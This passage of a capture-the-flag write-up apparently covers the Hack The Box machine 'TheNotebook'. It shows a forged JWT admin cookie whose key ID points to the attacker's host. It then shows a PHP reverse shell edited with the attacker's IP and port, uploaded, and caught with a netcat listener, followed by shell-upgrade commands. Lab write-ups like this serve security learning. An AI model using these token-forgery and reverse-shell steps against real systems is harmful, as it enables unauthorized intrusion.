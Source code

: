 ```http
Cookie: uuid=fc6beb6e-c388-4e19-b0d7-9587a82dac02; auth=eyJ0eXAiOiJKV1QiLCJhbGciOiJSUzI1NiIsImtpZCI6Imh0dHA6Ly8xMC4xMC4xNC4yNC9wcml2S2V5LmtleSJ9.eyJ1c2VybmFtZSI6Im1hb3V0aXMiLCJlbWFpbCI6Im1hb3V0aXNAaGFja3RoZWJveC5odGIiLCJhZG1pbl9jYXAiOjF9.dSB9WWMQFh66xXCbF0HpTMkSNo4ojWleQIFktxL1cczrLy9rhwvuKe42Zb4WxBsBbHB2CtH-YWZYXAOCRQawVGVgTDg-X9NHPk0yOsPUw4XOW1w1fH2Hs_xFE66OpYuboNX0wW-twqN_6jN18IwiJ3WYmES0ISEbqOEfeE_kJ0ujX2Z4d76Y2WPD-SHOi60Gj1QA-PrfTFSaepeMhze0Zg4TSfUDrV78S4DxQNJD5-i_P2MMARMM1qd7C6GJoDQyq4hw8l2fSYWgfHy7uBtjiG7RdDhhPGPHmvlfBzy7hFEkmLGcrupEV3IWpwmeK2nrST_O7XYXyeaMaTV_JUClrA
Upgrade-Insecure-Requests: 1
Cache-Control: max-age=0
```

![Pasted image 20210501003628.png]({{page.screenshots}}Pasted image 20210501003628.png)
![Pasted image 20210501003652.png]({{page.screenshots}}Pasted image 20210501003652.png)

Once logged as administrators all the other **notes were enumerated**, discovering a bug that allows RCE:
![Pasted image 20210501004214.png]({{page.screenshots}}Pasted image 20210501004214.png)
![Pasted image 20210501004235.png]({{page.screenshots}}Pasted image 20210501004235.png)
![Pasted image 20210501004308.png]({{page.screenshots}}Pasted image 20210501004308.png)

A [PHP reverse shell](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php) was so copied, adjusted and uploaded on the server:
```bash
┌──(kali㉿kali)-[~/…/HTB/box/TheNotebook/exploit]
└─$ cp /usr/share/webshells/php/php-reverse-shell.php rev.php

┌──(kali㉿kali)-[~/…/HTB/box/TheNotebook/exploit]
└─$ nano rev.php
...
$ip = '10.10.14.24';  // CHANGE THIS
$port = 10099;       // CHANGE THIS
...
```
![Pasted image 20210501004535.png]({{page.screenshots}}Pasted image 20210501004535.png)
![Pasted image 20210501004608.png]({{page.screenshots}}Pasted image 20210501004608.png)

Finally a reverse shell was obtained clicking on the *view* button:
```bash
┌──(kali㉿kali)-[~/CTFs/HTB/box/TheNotebook]
└─$ nc -nlvp 10099
listening on [any] 10099 ...
connect to [10.10.14.24] from (UNKNOWN) [10.10.10.230] 43694
Linux thenotebook 4.15.0-135-generic #139-Ubuntu SMP Mon Jan 18 17:38:24 UTC 2021 x86_64 x86_64 x86_64 GNU/Linux
 22:52:28 up  7:50,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
$ python3 -c 'import pty;pty.spawn("/bin/bash")'
www-data@thenotebook:/$ ^Z
zsh: suspended  nc -nlvp 10099

┌──(kali㉿kali)-[~/CTFs/HTB/box/TheNotebook]
└─$ stty raw -echo; fg

[1]  + continued  nc -nlvp 10099

www-data@thenotebook:/$ export TERM=xterm
www-data@thenotebook:/$ stty rows 60 columns 235
```
